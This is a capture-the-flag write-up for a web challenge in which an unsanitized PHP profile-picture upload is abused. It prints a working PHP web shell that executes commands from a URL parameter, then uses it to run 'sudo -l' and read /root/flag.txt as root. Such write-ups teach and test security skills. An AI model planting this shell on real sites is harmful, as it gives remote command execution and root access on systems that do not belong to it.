







# n0s4n1ty 1

**Difficulty**: :fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>

## Objective

!!! question "Request"
    A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.<br/>

## Hints

??? tip "Hint 1"
    File upload was not sanitized

??? tip "Insert Hint 2 Title"
    Whenever you get a shell on a remote machine, check `sudo -l`

## Solution

The description and hints for this challenge do a lot of the leg work for us. First off, we are told that the website has a flawed upload functionality. Our first hint further confirms our attack vector by advising that the file upload is not sanitized (**no**t **sanit**ized :laughing:); and finally the last hint suggest that a shell will be used.<br/>
<br/>
User input is always a good target for web vulnerabilities, whether that is a command injection, a reverse shell oportunity, or as is the case for this challenge, a webshell. Whenever a payload for a web exploit is needed, my go to has been [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) on GitHub. Lots of great information, including links to dive deeper or practice concepts, is available on the repo. Looking through the list of options, there is a directory named "*Upload Insecure Files*" with some promising information.<br/>
<br/>
Now lets launch the instance provided and see what we are working with.<br/>


/// caption
Basic upload page that allows us to search our own machine for a file to upload
///

Our hint states that file upload is not sanitized, however that isn't the same as saying that we can upload any file. I begin by exploring expected behaviour of the site. To do so, I uploaded a small image to view the results. 


/// caption
uploading `favicon.ico` successfully, we learn a couple of things.
/// 

From the successful upload we can learn a few things:<br/>
    1.  The website is using .php. This provies insight to the type of payload we need to craft<br/>
    2.  The file path where the image is accessible at<br/>

Using the provided file path, lets see if the upload is accessible. 


/// caption
Enter the provided path into the browser navigation to view the uploaded file.
/// 

Now that we know where file uploads are stored we can try uploading a payload. Using [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings.git) it is possible to find PHP specific [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20PHP) to upload. 

```php title="shell.php" linenums="1"
<?php
// A simple web shell
if (isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
```

Save the snippet as `shell.php` then upload it on the website. <br/>


/// caption
Upload the payload, then copy the path. 
///

With our shell uploaded, navigate to the file path. In my example, the file path is `uploads/shell.php`. <br/>


/// caption
Navigate to the shell page like the test image. There should be nothing on the page.
///

!!! warning "Display"
    Don't get lost seeing a blank page the first time. Untill there is a command or output to display, you shouldn't see anything. With a webshell we aren't expecting a terminal output, or any listeners. Instead, we will use the navigation bar, combined with `?cmd=`, to navigate the file system. 

Now we can use our Linux Fu and the hint from the earlier about checking `sudo`. In the browser navigation enter `?cmd=`; This will be our command prompt entry point. The first command I used was the one from the hint: `sudo -l`. The browser will naturally use URL encoding, changing the blank space to `%20`. If the shell script and upload worked, it should produce the terminal output on the browser page.


/// caption
`sudo -l`
///

It worked! The payload was delivered and we now have a webshell. Not only did we end up with a webshell but it appears that the profile that we have access to has `sudo` rights but no password, meaning we will be able to execute sudo commands without a password.<br/>

!!! info "What does it do?"
    Using the `man sudo` command from a terminal can tell us what the command is expected to do. 
    ```bash
    -l, --list
        If  no  command  is  specified, list the privileges for the invoking user (or the
        user specified by the -U option) on the current host.  A longer  list  format  is
        used  if this option is specified multiple times and the security policy supports
        a verbose output format.

        If a command is specified and is permitted by the security policy for the  invok‐
        ing  user  (or  the,  user  specified  by the -U option) on the current host, the
        fully-qualified path to the command is displayed along with any args.  If  -l  is
        specified more than once (and the security policy supports it), the matching rule
        is  displayed in a verbose format along with the command.  If a command is speci‐
        fied but not allowed by the policy, sudo will exit with a status value of 1.
    ```
The challenge told us that our flag is going to be located in `/root` directory and since we found out that we already have the permissions, we can read our flag with `sudo cat /root/flag.txt`.


/// caption
Success!
///

!!! success "Answer"
    Take advantage of unsanitized input to upload a shell script and read the secure flag.